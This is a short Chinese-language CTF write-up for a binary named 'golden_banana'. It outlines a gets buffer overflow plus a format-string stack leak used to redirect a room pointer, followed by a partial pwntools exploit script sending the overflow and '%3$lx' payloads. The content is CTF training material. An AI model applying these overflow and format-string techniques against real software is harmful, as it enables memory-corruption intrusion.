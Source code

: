 思路是利用gets溢出覆盖到某一个房间的描述信息，通过格式化字符串泄漏出栈地址，再通过gets溢出覆盖选项结构体中目标房间的指针，跳转到SECRET ROOM。

很久没有打CTF了以至于已经忘了**gets是\x0a截断而不是\x00截断**，卡了好久

```python
#!/usr/bin/python

from pwn import *
import sys
import time
context.log_level = 'debug'
context.arch='amd64'


def exp(ip, port):
	local=1
	binary_name='golden_banana'
	libc_name='libc.so.6'

	libc=ELF("./"+libc_name)
	e=ELF("./"+binary_name)

	if local:
		p=process("./"+binary_name)
	else:
		p=remote(ip,port)



	def z(a=''):
		if local:
			gdb.attach(p,a)
			if a=='':
				raw_input
		else:
			pass
			
	ru=lambda x:p.recvuntil(x)
	sl=lambda x:p.sendline(x)
	sd=lambda x:p.send(x)
	sa=lambda a,b:p.sendafter(a,b)
	sla=lambda a,b:p.sendlineafter(a,b)
	ia=lambda :p.interactive()
	
	def cat():
		ru('> ')
		sl('cat')
		
	def echo(x):
		ru('> ')
		sl(b'echo '+x)
		
	def exit():
		ru('> ')
		sl('exit')
		
	z('b*$rebase(0x17fa)')
	time.sleep(1)
	
	ru('2: Go south')
	sl('1\x00')
	ru('2: No, go back')
	sl('2\x00'+'1'*(0x1828-2)+'%3$lx')
	ru('2: Go south')
	sl('1\x00')
```
